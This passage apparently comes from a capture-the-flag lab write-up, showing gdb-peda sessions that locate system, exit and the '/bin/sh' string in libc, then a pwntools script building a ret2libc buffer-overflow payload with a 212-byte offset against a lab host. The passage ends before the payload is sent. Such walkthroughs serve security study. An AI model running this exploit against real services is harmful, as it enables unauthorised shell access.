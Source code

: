 ```bash
#      info proc mappings -- List memory regions mapped by the specified process.        :( Not much information here
    /> info proc mappings
#      --> /usr/lib32/libc.so.6
    /> help find                      <-- Deprecated
#      --> Alias for 'peda searchmem'
    /> find &system,+9999999,"sh"     <-- Deprecated
    /> help searchmem
#      --> Search for a pattern in memory; support regex search
#      Usage:
#              searchmem pattern start end
    /> searchmem "/bin/sh" 0xf7c00000 0xf7c22000      # :(
    /> searchmem "/bin/sh" 0xf7c22000 0xf7d9f000      # :(
    /> searchmem "/bin/sh" 0xf7d9f000 0xf7e22000      # :(
#      --> libc.so.6 : 0xf7db9dcd ("/bin/sh")
    /> help x
#      --> Examine memory: x/FMT ADDRESS.
    /> x /s 0xf7db9dcd
#      --> 0xf7db9dcd: "/bin/sh"

file lcars_binary
#    --> ELF 32-bit LSB pie executable, Intel 80386
```

> **lcars_bof.py**

```python
#!/usr/bin/python3

from pwn import *
from struct import pack

# Global variables
host, port = "10.10.10.61", 32812

def exploitBOF():

    # Target: ret2libc --> EIP --> system_addr --> exit_addr --> bin_sh_addr

    # gdb-peda$ pattern_offset $eip
    # 625026085 found at offset: 212
    offset = 212
    junk = b"A" * offset

    # gdb-peda$ p system
    # $2 = {<text variable, no debug info>} 0xf7c4dd10 <system>

    system_addr = pack("<I",0xf7c4dd10)

    # gdb-peda$ p exit
    # $3 = {<text variable, no debug info>} 0xf7c3d230 <exit>

    exit_addr = pack("<I",0xf7c3d230)

    # gdb-peda$ searchmem "/bin/sh" 0xf7d9f000 0xf7e22000
    # Searching for '/bin/sh' in range: 0xf7d9f000 - 0xf7e22000
    # Found 1 results, display max 1 items:
    # libc.so.6 : 0xf7db9dcd ("/bin/sh")
    # gdb-peda$ x /s 0xf7db9dcd
    # 0xf7db9dcd:	"/bin/sh"

    bin_sh_addr = pack("<I",0xf7db9dcd)

    payload = junk + system_addr + exit_addr + bin_sh_addr
```